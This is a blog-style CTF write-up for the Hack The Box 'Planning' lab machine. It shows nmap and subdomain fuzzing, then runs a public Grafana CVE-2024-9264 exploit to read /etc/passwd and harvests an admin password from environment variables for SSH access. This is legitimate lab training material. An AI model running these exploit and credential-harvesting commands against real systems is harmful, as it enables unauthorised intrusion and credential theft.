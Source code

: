 ```yaml
---
layout: post
title:  "Planning"
date:   2025-05-20 20:20:00 -0400
categories: HTB-machine linux easy
tags: HTB CTF writeup nmap
image:
    path: assets/img/htb/planning/banner.png
---
```


# Machine Information

As is common in real life pentests, you will start the Planning box with credentials for the following account: `admin / 0D5oT70Fq13EvB5r`

# Writeup
### User Flag
First, we need to see which ports are open by `Nmap`
```bash
nmap -sC -sV 10.129.69.85
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We got the domain's name, now we need to resolve it.
```bash
echo "10.129.69.85 planning.htb" | sudo tee -a /etc/hosts
```
Let crawl the web.
```bash
gobuster dir -u planning.htb /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt 
```
We got nothing, well maybe the sub-domain wil work.
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -u http://10.129.69.85 -H "Host: FUZZ.planning.htb" -fc 301
```
We got `grafana`, add it to `/etc/hosts`. Go to the web and login with provided credential.

Next, we need to search for version of this platform (grafana's version). Look at top right, we can see the setting icon.

![](assets/img/htb/planning/1.png)

Now search for CVE of the version and we got this [payload](https://github.com/nollium/CVE-2024-9264)

Clone then install it, exploit.
```bash
git clone https://github.com/nollium/CVE-2024-9264.git

cd CVE-2024-9264/

pip install -r requirements.txt

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -f /etc/passwd  http://grafana.planning.htb/
```

We can see that it's working.

Now we read all environment variables
```bash
env
```

```
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
SHLVL=0
AWS_AUTH_EXTERNAL_ID=
HOME=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=???
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
PWD=/usr/share/grafana
```

Use this credential to login through `SSH`, and we got the flag.
```bash
ssh ???@10.129.69.85
```
